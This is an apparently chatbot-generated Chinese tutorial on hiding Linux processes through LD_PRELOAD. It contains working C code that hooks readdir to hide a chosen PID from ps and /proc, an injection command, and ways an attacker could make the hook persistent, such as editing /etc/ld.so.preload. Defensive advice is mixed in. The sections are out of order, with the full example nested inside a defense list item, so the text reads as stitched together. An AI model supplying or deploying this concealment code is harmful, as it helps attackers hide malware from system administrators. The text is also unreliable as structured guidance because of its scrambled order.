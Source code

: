 ### 步骤 3：使用 LD_PRELOAD 注入

```
bash


复制编辑
LD_PRELOAD=./libhide.so ps aux
```

> 这样，`ps` 命令就看不到 PID 为 1234 的进程了。

------

## 💀 五、攻击者持久化的方式

为了持久使用这个库，攻击者可能会：

- 修改 `/etc/ld.so.preload`，加入库路径（会影响所有程序）
- 注入某些守护进程启动脚本，自动设置 `LD_PRELOAD`
- 利用 rootkit 技术隐藏 `libhide.so` 本身

------

## 🛡️ 六、安全防护建议

1. **检测 `/etc/ld.so.preload` 是否被修改**

2. **使用完整性检测工具（如 AIDE）监控 libc 调用链**

3. **启用 SELinux / AppArmor 限制 LD_PRELOAD 使用**

4. **使用静态编译命令绕过动态库劫持**

5. **定期扫描 `/proc` 与 `ps` 输出差异**（对抗隐藏）

6. ## ✅ 一、完整可运行的进程隐藏示例（基于 `LD_PRELOAD`）

   ### 🔧 示例功能：

   隐藏 PID 为 `1234` 的进程（你可以运行一个假进程模拟这个 PID），会让 `ps`、`ls /proc` 等命令看不到它。

   ### 1️⃣ 创建 C 文件：`hideproc.c`

   ```
   c复制编辑#define _GNU_SOURCE
   #include <dirent.h>
   #include <string.h>
   #include <dlfcn.h>
   #include <stdio.h>
   
   static const char *HIDE_PID = "1234"; // 要隐藏的进程 PID
   
   struct dirent *readdir(DIR *dirp) {
       static struct dirent *(*original_readdir)(DIR *) = NULL;
       if (!original_readdir)
           original_readdir = dlsym(RTLD_NEXT, "readdir");
   
       struct dirent *entry;
       while ((entry = original_readdir(dirp)) != NULL) {
           if (strcmp(entry->d_name, HIDE_PID) == 0) {
               continue; // 跳过要隐藏的 PID
           }
           return entry;
       }
       return NULL;
   }
   ```